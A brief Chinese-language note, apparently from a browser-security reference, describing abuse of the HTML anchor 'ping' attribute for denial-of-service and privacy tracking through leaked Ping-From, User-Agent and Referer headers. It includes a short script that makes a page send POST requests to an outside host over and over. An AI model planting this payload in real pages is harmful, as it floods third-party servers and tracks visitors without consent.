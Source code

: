 -----

* 特性：ping属性
* 环境：发送异步请求，完成一次HTTP重定向，循环发送POST请求，造成DOS攻击；
      PING-FROM、USER-AGENT、REFERER泄漏用户的隐私。
* 漏洞类型：DOS攻击、隐私追踪

-----   

举例：
-----
      <script> 
      var link = document.createElement('a'); 
      link.href=""; 
      link.ping = 'http://www.xisigr.com/'; 
      document.head.appendChild(link); link.click(); 
      </script>    
      运行上面的代码，就会不停的向xisigr.com发送POST请求。
